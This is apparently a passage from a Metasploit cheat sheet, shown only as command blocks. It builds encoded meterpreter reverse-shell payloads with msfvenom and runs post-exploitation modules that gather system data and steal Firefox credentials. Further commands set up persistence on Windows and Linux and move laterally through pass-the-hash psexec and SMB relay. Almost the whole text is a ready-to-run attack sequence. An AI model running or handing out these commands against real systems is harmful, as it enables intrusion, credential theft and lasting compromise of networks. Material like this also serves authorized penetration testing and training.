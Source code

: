 ### Encoded Payloads
```bash
# Encoded Windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 -e x86/shikata_ga_nai -i 3 -f exe > encoded.exe

# Encoded PowerShell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 -f psh-reflection > payload.ps1
```

## Post-Exploitation

### Information Gathering
```bash
# System information gathering
run post/windows/gather/checkvm

# Network information
run post/multi/gather/network_config

# Installed software
run post/windows/gather/enum_applications

# Browser credentials
run post/multi/gather/firefox_creds
```

### Persistence
```bash
# Windows persistence
run post/windows/manage/persistence_exe

# Linux persistence
run post/linux/manage/persistence_service

# Registry persistence
run post/windows/manage/registry_persistence
```

### Lateral Movement
```bash
# Pass the hash
use exploit/windows/smb/psexec
set SMBUser Administrator
set SMBPass hash_here
set RHOSTS 192.168.1.101
run

# SMB relay
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.101
run
```
